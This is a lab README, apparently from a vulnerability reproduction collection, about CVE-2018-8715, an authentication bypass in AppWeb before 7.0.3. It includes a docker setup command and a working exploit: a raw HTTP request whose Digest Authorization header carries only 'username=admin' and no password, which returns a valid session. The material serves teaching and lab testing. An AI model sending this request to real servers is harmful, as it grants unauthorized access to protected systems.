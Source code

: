 # AppWeb Authentication Bypass（CVE-2018-8715）

[中文版本（Chinese version）](README.zh-cn.md)

AppWeb is an embedded web server developed by Embedthis Software LLC. Developed in C/C++, can be run on almost  all popular OS.

AppWeb can be configured to use authentication,including the following three ways

- ​	Basic   Authentication 
- ​	Digest Authentication ，store session with cookie，instead of Authorization header
- ​	Form   Authentication 

versions < 7.0.3  ，there is a vulnerability for both digest and form authentication ；If the user gave `null` for  the password( leave the password field to empty), AppWeb will directly authenticate successfully due to a logical error and return session.



Reference:

- https://ssd-disclosure.com/index.php/archives/3676
- https://github.com/embedthis/appweb/issues/610



## Vulnerability environment

start the vulnerability environment

```
docker-compose up -d
```

Access `http://your-ip:8080`，then you will see the username and password field。

## Exploit

You need  an existing username，there is an `admin` for this  environment.

Generate a http packet with header  `Authorization: Digest username=admin`，and send  it to the server:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

As you can see,in the http response, because of the empty password field，the server made an error with a http status-code 200，including a session as well.

![](1.png)

Use the session above  in the browser，then you can access the page which is originally need to be authenticated：

![](2.png)
